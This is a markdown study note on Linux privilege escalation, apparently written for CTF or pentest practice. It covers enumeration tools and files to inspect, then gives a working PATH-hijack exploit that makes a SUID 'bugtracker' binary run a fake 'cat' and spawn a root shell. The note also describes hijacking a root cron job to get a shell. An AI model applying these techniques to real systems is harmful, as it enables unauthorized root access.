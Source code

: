 escalation ideas ->
https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics

files -> https://gtfobins.github.io

## linpeas.sh
It is a script designed to assist in privilege escalation enumeration on Linux systems.
Linpeas is written in Bash scripting language and is designed to be executed directly on the target Linux system. It automates the process of gathering information and performing various checks to identify potential privilege escalation vectors.
```bash
./linpeas.sh
```

## pspy
**pspy** is based on the analysis of the `/proc` directory, which contains information about the running processes in the Linux operating system. It utilizes the virtual file system `/proc` to obtain real-time information about processes, such as the process ID, process name, user executing the process, files opened by the process, and other relevant details.
```bash
./pspy
```
## /etc/passwd
This is a file that we can find in all the Linux machines. Once we have gained access to a machine and we want to escalate our privileges we can take a look to this file to see what users are registered in the machine. The fields that we can find for each row are: 
 - Username
 - Password
 - User ID
 - Primary Group ID 
 - User Information
 - Home Directory
 - Shell
```bash
cat /etc/passwd

#Example of a row:
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

## /etc/hosts
This file can be a valuable resource for mapping domain names to IP addresses within a target system.
For example, we could find a new subdomain.
```bash
ls /etc/hosts
```

## /proc/version
The proc filesystem (procfs) provides information about the target system processes. You will find proc on many different Linux flavours, making it an essential tool to have in your arsenal.

Looking at `/proc/version` may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.
This can be useful if you want to find a possible CVE.

## /etc/crontab
Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

## id
Something we can do to gain privileges is to observe the groups our current user belongs to, to see if there's any uncommon one and take advantage of it to exploit a vulnerability.
```bash
#command:
id                                     
#possible putput:
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```
If we observe the output, we can see that Robert is in the bugtracker group, what it's not common.

## locate
It is a command that locates if there is any file with this name. This can be useful, for example, if we want to locate a user or a group.
```bash
#command:
locate bugtracker
#possible output:
/usr/bin/bugtracker
```

## find
This command is used to search for files and directories within a specified directory hierarchy. It searches recursively through the directory structure, starting from the given directory, and matches files and directories based on specified criteria.

- Parameters:
	 - `-name <pattern>`: Matches files and directories with the specified name pattern.
	- `-type <type>`: Matches files or directories of the specified type, such as `f` for regular files or `d` for directories.
	- `-size <size>`: Matches files based on size, such as `+10M` for files larger than 10 megabytes or `-100K` for files smaller than 100 kilobytes.
	- `-user <username>`: Matches files owned by the specified username.

```bash
find [path] [expression]
```
## Files privilege
When gaining privileges, paying attention to the permissions assigned to each file can provide a significant advantage. For instance, if a file has execution permissions and it belongs to the root user, but you can execute it as a regular user, this can be a potential vulnerability.

If, for example, this file (bugtruck) is affected by the vulnerability described, and this executable allows us to input commands in some way, we could make it perform the following:
```bash
echo "/bin/sh" > /tmp/cat
chmod +x /tmp/cat
export PATH=/tmp:$PATH
bugtracker /tmp/cat
```
Bugtracker executes files with root privileges depending on the path you specify. With the commands we've made, we make it execute the command responsible for creating a new shell, doing so with root privileges.